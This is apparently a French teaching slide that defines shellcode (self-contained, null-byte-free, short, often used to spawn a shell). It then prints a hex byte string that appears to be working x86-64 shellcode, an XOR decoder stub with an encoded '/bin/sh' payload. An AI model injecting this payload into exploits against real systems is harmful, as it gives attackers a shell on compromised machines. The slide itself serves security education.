

# Shellcode
Suite d’instructions, copiées dans la mémoire et exécutées
Souvent dans le but d’accéder à un shell
Self-contained : pas de contexte, pas de variables, …
Ne contient pas de caractères spéciaux (\x00, \x0a, …)
Le plus court possible

\xeb\x27\x5b\x53\x5f\xb0\xd0\xfc\xae\x75\xfd\x57\x59\x53\x5e\x8a\x06\x30\x07\x48\xff\xc7\x48\xff\xc6\x66\x81\x3f\x92\x8b\x74\x07\x80\x3e\xd0\x75\xea\xeb\xe6\xff\xe1\xe8\xd4\xff\xff\xff\x01\xd0\x49\xb9\x2e\x63\x68\x6f\x2e\x72\x69\x01\x98\x51\x55\x5e\x53\x5f\x6b\x3a\x59\x0e\x04\x92\x8b